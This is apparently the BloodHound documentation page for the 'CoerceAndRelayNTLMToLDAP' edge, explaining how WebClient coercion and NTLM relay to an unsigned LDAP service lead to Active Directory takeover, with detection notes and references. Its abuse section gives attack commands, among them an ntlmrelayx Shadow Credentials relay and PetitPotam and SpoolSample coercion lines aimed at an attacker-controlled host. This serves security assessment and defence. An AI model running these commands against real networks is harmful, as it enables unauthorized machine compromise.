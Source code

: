 ```yaml
---
title: CoerceAndRelayNTLMToLDAP
description: The target computer can be coerced to authenticate via NTLM to an LDAP service on a domain controller that does not require LDAP signing, allowing an attacker to abuse Active Directory permissions or obtain administrative access to the target computer.
---
```


<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>

This edge indicates that the target computer has the WebClient service running. This enables an attacker with "Authenticated Users" access to trigger WebClient-based coercion from the target computer to their attacker-controlled host via NTLM. Since the connection originates from the WebClient instead of SMB, the attacker can relay the authentication attempt to the LDAP service of a domain controller that does not require LDAP signing. This relay can be used to abuse Active Directory permissions or obtain administrative access to the target computer using Resource-Based Constrained Delegation (RBCD) or Shadow Credentials.

## Abuse Info

This section provides general guidance about abusing this edge. For detailed instructions, see [references](#references) at the end of this article.

### Linux

1. **Start the Relay Server**

   The NTLM relay can be executed with [ntlmrelayx.py](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py). To relay to LDAP and perform a Shadow Credentials attack against the target computer:

   ```bash
   ntlmrelayx.py -t ldap://<Domain Controller IP> --shadow-Credentials
   ```

1. **Coerce the Target Computer**

   Several coercion methods are documented here: [Windows Coerced Authentication Methods](https://github.com/p0dalirius/windows-coerced-authentication-methods).

   Examples of tools include:

   - [printerbug.py](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)
   - [PetitPotam](https://github.com/topotam/PetitPotam)

   To trigger WebClient coercion (instead of regular SMB coercion), the listener must use a WebDAV Connection String format: `\\SERVER_NETBIOS@PORT/PATH/TO/FILE`.

   ```bash
   petitpotam.py -d "DOMAIN" -u "USER" -p "PASSWORD" "ATTACKER_NETBIOS@PORT/file.txt" "VICTIM_IP"
   ```

### Windows

1. **Start the Relay Server**

   The NTLM relay can be executed with [Inveigh](https://github.com/Kevin-Robertson/Inveigh).

1. **Coerce the Target Computer**

   Several coercion methods are documented here: [Windows Coerced Authentication Methods](https://github.com/p0dalirius/windows-coerced-authentication-methods). Examples of tools include:
   
   - [SpoolSample](https://github.com/leechristensen/SpoolSample)
   - [PetitPotam](https://github.com/topotam/PetitPotam)

   To trigger WebClient coercion (instead of regular SMB coercion), the listener must use a WebDAV connection string format: `\\SERVER_NETBIOS@PORT/PATH/TO/FILE`.

   Example:

   ```ps
   SpoolSample.exe "VICTIM_IP" "ATTACKER_NETBIOS@PORT/file.txt"
   ```

## Opsec Considerations

NTLM relayed authentications can be detected by login events where the IP address does not match the computer's actual IP address. This detection technique is described in the blog post: [Detecting NTLM Relay Attacks](https://posts.bluraven.io/detecting-ntlm-relay-attacks-d92e99e68fb9).

## Edge Schema

Source: [User](/resources/nodes/user), [Group](/resources/nodes/group)  
Destination: [Computer](/resources/nodes/computer)  
Traversable: **Yes**  

## References

- [Hackndo: NTLM relay](https://en.hackndo.com/ntlm-relay/)
- [Microsoft: NTLM Overview](https://learn.microsoft.com/en-us/windows-server/security/kerberos/ntlm-overview)
- [Relay Your Heart Away: An OPSEC-Conscious Approach to 445 Takeover](https://posts.specterops.io/relay-your-heart-away-an-opsec-conscious-approach-to-445-takeover-1c9b4666c8ac)
- [Inveigh](https://github.com/Kevin-Robertson/Inveigh)
- [Windows Coerced Authentication Methods](https://github.com/p0dalirius/windows-coerced-authentication-methods)
- [PetitPotam](https://github.com/topotam/PetitPotam)
- [SpoolSample](https://github.com/leechristensen/SpoolSample)
- [Beyond the Basics: Exploring Uncommon NTLM Relay Attack Techniques](https://www.guidepointsecurity.com/blog/beyond-the-basics-exploring-uncommon-ntlm-relay-attack-techniques/)
- [printerbug.py](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)
- [I'm bringing relaying back: A comprehensive guide on relaying anno 2022](https://trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022)
- [ntlmrelayx.py](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py)
- [2020, 2023, and 2024 LDAP channel binding and LDAP signing requirements for Windows (KB4520412)](https://support.microsoft.com/en-us/topic/2020-2023-and-2024-ldap-channel-binding-and-ldap-signing-requirements-for-windows-kb4520412-ef185fb8-00f7-167d-744c-f299a66fc00a)
- [Detecting NTLM Relay Attacks](https://posts.bluraven.io/detecting-ntlm-relay-attacks-d92e99e68fb9)

